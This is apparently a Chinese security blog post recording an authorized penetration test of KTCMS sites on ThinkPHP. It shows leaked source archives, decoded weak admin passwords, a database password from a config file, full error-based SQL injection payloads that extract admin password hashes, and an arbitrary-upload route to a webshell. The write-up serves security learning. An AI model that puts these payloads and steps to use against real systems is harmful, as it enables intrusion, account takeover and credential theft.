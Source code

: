 ```yaml
---
layout: post
title: "记一次常规渗透测试笔记（已授权）"
subtitle: "记一次常规渗透测试笔记（已授权）"
date: 2019-08-20
author: ppbibo
category: security
finished: true
---
```

[TOC]

由黑盒转白盒的一次渗透测试（已授权）



PS：拿到了三个站点,发现都是一样的程序 **RT：**

domain：【`www.abc.com`，`www.test.com`，`www.aaa.com`】



## 0x1 信息收集

```text
1. 框架： ThinkPHP V5.0.24   
# 测试了以前爆TP的命令执行漏洞失败

2. CMS：KTCMS     
# 搜索没发现与 KTCMS 相关的漏洞

3. 后台路径：/admin/login/        
# 手工测试常见弱口令无果，已知用户 admin 
```

![KTCMS1](/static/img/KTCMS1.png)

跑了一下路径发现源码泄露，路径如下：

```html
www.abc.com/abc.com.tar.gz
www.test.com/test1.tar.gz
www.aaa.com/1aaa2019.tar.gz
```

下载源码找到数据库备份文件 `/public/data/kt_cms.sql`  **RT：**

![](/static/img/KTCMS2.png)

第一次见这种加密比较懵，问了群里表哥说解密方法每两个数字前面加个 % 然后URL解码，得到明文。

```bash
%61%64%6D%69%6E  # URL解码得出 admin

%32%31%32%33%32%66%32%39%37%61%35%37%61%35%61%37%34%33%38%39%34%61%30%65%34%61%38%30%31%66%63%33	# URL解码得出MD5值：21232f297a57a5a743894a0e4a801fc3 经过CMD5解密为 admin
```

```bash
%31		# URL解码得出 1

%63%34%63%61%34%32%33%38%61%30%62%39%32%33%38%32%30%64%63%63%35%30%39%61%36%66%37%35%38%34%39%62	# URL解码得出MD5值：c4ca4238a0b923820dcc509a6f75849b 	经过CMD5解密为 1
```

得到用户账号密码：

```
account：admin 	|  pwd：admin
account：1 	|  pwd： 1
```

数据库配置文件 `config.php` ：

```php
// 数据库名
'database'        => '58_1',
// 用户名
'username'        => '58_1',
// 密码
'password'        => '4EHZAsJy7DiZFnsE',
```



## 0x2 SQL注入发现

进行后台登陆都显示密码错误（ 密码已更改 ），`BurpSuite` 爆破 `admin`用户无果，手工测试用户`1` 密码`2` 成功登陆。**RT:**

![KTCMS3](/static/img/KTCMS3.png)

权限就一个搜索框栏目的功能，手工测试发现存在注入  **RT：**

![KTCMS5](/static/img/KTCMS5.png)

页面中给出了 数据库的账号密码及SQL查询报错的详细信息,我们直接查询 `admin` 的用户密码，前面源码泄露数据中有他的`数据库结构` 信息。

直接查询`admin` 用户的密码：

```sql
-a') and (select 1 from (select count(*),concat(floor(rand(0)*2),(select pwd from kt_sys_admin limit 1))a from information_schema.tables group by a)b)#
```

返回：

```text
Duplicate entry '1ba32ca749f243590df6b520ddcc1a0ed' for key 'group_key'
```

![KTCMS4](/static/img/KTCMS4.png)

查询第二条密码：

```sql
-a') and (select 1 from (select count(*),concat(floor(rand(0)*2),(select pwd from kt_sys_admin limit 1,1))a from information_schema.tables group by a)b)#
```

返回：

```bash
Duplicate entry '1c81e728d9d4c2f636f067f89cc14862c' for key 'group_key'
```

![KTCMS6](/static/img/KTCMS6.png)



## 0x3 未授权访问&越权

![KTCMS7](/static/img/KTCMS7.png)

在 html 注释中发现多处未授权访问 **RT：**

![KTCMS8](/static/img/KTCMS8.png)



根据之前的源码发现多处未授权访问 但是并没有相应的权限进行相关操作。



## 0x4 上传GetShell

在源码中发现 `upload_file.html` 文件可以上传任意文件 **RT：**

![KTCMS9](/static/img/KTCMS9.png)

![KTCMS10](/static/img/KTCMS10.png)

成功拿到 `webshell` 登陆数据库，添加超级管理员账号 **RT：**

![KTCMS11](/static/img/KTCMS11.png)

![KTCMS12](/static/img/KTCMS12.png)



系统没法执行任何系统命令，观测为虚拟主机，另外两个站一样的思路。